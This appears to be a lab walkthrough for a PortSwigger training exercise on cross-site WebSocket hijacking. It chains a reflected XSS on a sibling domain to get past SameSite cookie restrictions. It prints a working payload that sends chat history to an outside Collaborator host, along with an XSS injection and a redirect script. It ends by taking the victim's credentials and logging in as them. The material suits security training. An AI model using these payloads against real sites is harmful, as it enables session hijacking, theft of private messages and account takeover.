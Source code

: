 ```yaml
---
dg-publish: true
---
```


### **Study the live chat feature**

1. In Burp's browser, go to the live chat feature and send a few messages.
2. In Burp, go to the **Proxy > HTTP history** tab and find the WebSocket handshake request. This should be the most recent `GET /chat` request.
3. Notice that this doesn't contain any unpredictable tokens, so may be vulnerable to CSWSH if you can bypass any [SameSite](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions) cookie restrictions.
4. In the browser, refresh the live chat page.
5. In Burp, go to the **Proxy > WebSockets history** tab. Notice that when you refresh the page, the browser sends a `READY` message to the server. This causes the server to respond with the entire chat history.

### **Confirm the CSWSH vulnerability**

1. In Burp, go to the **Collaborator** tab and click **Copy to clipboard**. A new Collaborator payload is saved to your clipboard.
2. In the browser, go to the exploit server and use the following template to create a script for a CSWSH proof of concept:`<script> var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat'); ws.onopen = function() { ws.send("READY"); }; ws.onmessage = function(event) { fetch('https://YOUR-COLLABORATOR-PAYLOAD.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data}); }; </script>`
3. Store and view the exploit yourself
4. In Burp, go back to the **Collaborator** tab and click **Poll now**. Observe that you have received an HTTP interaction, which indicates that you've opened a new live chat connection with the target site.
5. Notice that although you've confirmed the CSWSH vulnerability, you've only exfiltrated the chat history for a brand new session, which isn't particularly useful.
6. Go to the **Proxy > HTTP history** tab and find the WebSocket handshake request that was triggered by your script. This should be the most recent `GET /chat` request.
7. Notice that your session cookie was not sent with the request.
8. In the response, notice that the website explicitly specifies `SameSite=Strict` when setting session cookies. This prevents the browser from including these cookies in cross-site requests.

### **Identify an additional vulnerability in the same "site"**

1. In Burp, study the proxy history and notice that responses to requests for resources like script and image files contain an `Access-Control-Allow-Origin` header, which reveals a sibling domain at `cms-YOUR-LAB-ID.web-security-academy.net`.
2. In the browser, visit this new URL to discover an additional login form.
3. Submit some arbitrary login credentials and observe that the username is reflected in the response in the `Invalid username` message.
4. Try injecting an XSS payload via the `username` parameter, for example:`<script>alert(1)</script>`
5. Observe that the `alert(1)` is called, confirming that this is a viable [reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) vector.
6. Send the `POST /login` request containing the XSS payload to Burp Repeater.
7. In Burp Repeater, right-click on the request and select **Change request method** to convert the method to `GET`. Confirm that it still receives the same response.
8. Right-click on the request again and select **Copy URL**. Visit this URL in the browser and confirm that you can still trigger the XSS. As this sibling domain is part of the same site, you can use this XSS to launch the CSWSH attack without it being mitigated by SameSite restrictions.

### **Bypass the SameSite restrictions**

1. Recreate the CSWSH script that you tested on the exploit server earlier.`<script> var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat'); ws.onopen = function() { ws.send("READY"); }; ws.onmessage = function(event) { fetch('https://YOUR-COLLABORATOR-PAYLOAD.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data}); }; </script>`
2. URL encode the entire script.
3. Go back to the exploit server and create a script that induces the viewer's browser to send the `GET` request you just tested, but use the URL-encoded CSWSH payload as the `username` parameter. The following is one possible approach:`<script> document.location = "https://cms-YOUR-LAB-ID.web-security-academy.net/login?username=YOUR-URL-ENCODED-CSWSH-SCRIPT&password=anything"; </script>`
4. Store and view the exploit yourself.
5. In Burp, go back to the **Collaborator** tab and click **Poll now**. Observe that you've received a number of new interactions, which contain your entire chat history.
6. Go to the **Proxy > HTTP history** tab and find the WebSocket handshake request that was triggered by your script. This should be the most recent `GET /chat` request.
7. Confirm that this request does contain your session cookie. As it was initiated from the vulnerable sibling domain, the browser considers this a same-site request.

### **Deliver the exploit chain**

1. Go back to the exploit server and deliver the exploit to the victim.
2. In Burp, go back to the **Collaborator** tab and click **Poll now**.
3. Observe that you've received a number of new interactions.
4. Study the HTTP interactions and notice that these contain the victim's chat history.
5. Find a message containing the victim's username and password.
6. Use the newly obtained credentials to log in to the victim's account and the lab is solved.